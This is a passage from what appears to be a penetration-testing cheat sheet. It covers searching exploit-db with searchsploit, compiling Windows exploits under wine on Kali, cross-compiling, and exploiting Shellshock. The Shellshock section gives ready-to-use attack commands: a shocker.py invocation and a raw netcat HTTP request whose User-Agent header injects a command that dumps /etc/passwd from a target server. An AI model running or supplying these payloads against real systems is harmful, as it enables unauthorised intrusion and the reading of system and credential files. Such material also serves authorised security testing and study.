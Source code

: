   </tbody>
</table>
</div>

### Searching for Exploits 

Install local copy of exploit-db: 

```
 searchsploit –u
 searchsploit apache 2.2
 searchsploit "Linux Kernel"
 searchsploit linux 2.6 | grep -i ubuntu | grep local
```

### Compiling Windows Exploits on Kali 

```
  wget -O mingw-get-setup.exe http://sourceforge.net/projects/mingw/files/Installer/mingw-get-setup.exe/download
  wine mingw-get-setup.exe
  select mingw32-base
  cd /root/.wine/drive_c/windows
  wget http://gojhonny.com/misc/mingw_bin.zip && unzip mingw_bin.zip
  cd /root/.wine/drive_c/MinGW/bin
  wine gcc -o ability.exe /tmp/exploit.c -lwsock32
  wine ability.exe  
``` 

### Cross Compiling Exploits

```
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
```


### Exploiting Common Vulnerabilities 

#### Exploiting Shellshock 

A tool to find and exploit servers vulnerable to Shellshock:

```
git clone https://github.com/nccgroup/shocker
```

```
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
```

##### cat file (view file contents)

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```
